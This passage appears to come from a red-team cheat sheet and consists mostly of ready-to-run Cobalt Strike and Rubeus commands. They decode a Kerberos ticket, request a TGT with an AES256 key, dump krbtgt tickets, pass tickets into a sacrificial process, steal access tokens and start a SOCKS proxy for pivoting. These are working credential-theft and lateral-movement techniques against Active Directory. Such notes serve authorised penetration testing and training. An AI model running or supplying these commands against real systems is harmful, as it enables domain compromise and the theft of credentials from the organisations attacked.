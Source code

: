 or bash:

```
root@kali:~# echo -en "[...ticket...]" | base64 -d > jkingTGT.kirbi
```

Use the ticket

```
kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi
```

IF ELEVATED - WITH AES KEY

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe asktgt /user:jking /domain:child.test.local /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

# find pid and steal token
steal_token <PID>
```

### Extracting Kerberos Tickets

```
# List all kerberos tickets
 execute-assembly C:\Tools\Rubeus\Rubeus.exe triage

# dump TGT 
 execute-assembly C:\Tools\Rubeus\Rubeus.exe dump /service:krbtgt /luid:TARGET LUID /nowrap

# create sacrificial process
 execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
 
 # Pass the ticket into new process
 execute-assembly C:\Tools\Rubeus\Rubeus.exe ptt /luid:NEW LUID /ticket:[...base64-ticket...]
 
 # steal token
 steal_token 4872
```

### Socks Proxy

Start Socks Proxy on beacon

```
socks <PORT, Usually 9050 by default >
```

Confirm bind port on Kali

```
ss -lpnt
```

Update /etc/proxychains.conf
